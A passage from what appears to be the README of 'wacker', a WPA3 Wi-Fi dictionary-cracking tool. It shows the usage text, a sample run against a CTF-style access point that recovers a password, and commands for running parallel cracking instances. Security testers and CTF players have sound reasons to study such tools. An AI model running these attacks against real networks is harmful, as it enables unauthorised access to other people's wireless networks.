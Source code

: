# make -j4
# make altinstall
```


# Running wacker
The wacker.py script is intended to perform all the heavy lifting.
```
# ./wacker.py --help
usage: wacker.py [-h] --wordlist WORDLIST --interface INTERFACE --bssid BSSID
                 --ssid SSID --freq FREQ [--start START_WORD] [--debug]

A WPA3 dictionary cracker. Must run as root!

optional arguments:
  -h, --help            show this help message and exit
  --wordlist WORDLIST   wordlist to use
  --interface INTERFACE
                        interface to use
  --bssid BSSID         bssid of the target
  --ssid SSID           the ssid of the WPA3 AP
  --freq FREQ           frequency of the ap
  --start START_WORD    word to start with in the wordlist
  --debug               increase logging output
```
With any luck... running the attack using just one instance...
```
# ./wacker.py --wordlist cyberpunk.words --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
Start time: 21 Aug 2020 07:40:11
Starting wpa_supplicant...
    5795 / 509151   words (1.14%) :  79.41 words/sec : 0.020 hours lapsed :   1.76 hours to exhaust (21 Aug 2020 09:25:49)
Found the password: 'Aeromechanics'

Stop time: 21 Aug 2020 07:41:24
```

Running multiple instances of wacker is easy if you have the spare nics. Don't forget to parition the wordlist as well.
```
# ./wacker.py --wordlist cyberpunk.words.aaa --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan1 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aab --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aac --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan3 --freq 2412
```

# Files of interest
wacker is quite verbose. Files of interest are found under <b>/tmp/wacker/</b>
 - wlan1 : one end of the uds
 - wlan1_client : one end of the uds
 - wlan1.conf : initial wpa_supplicant conf needed
 - wlan1.log : supplicant output (only when using --debug option)
```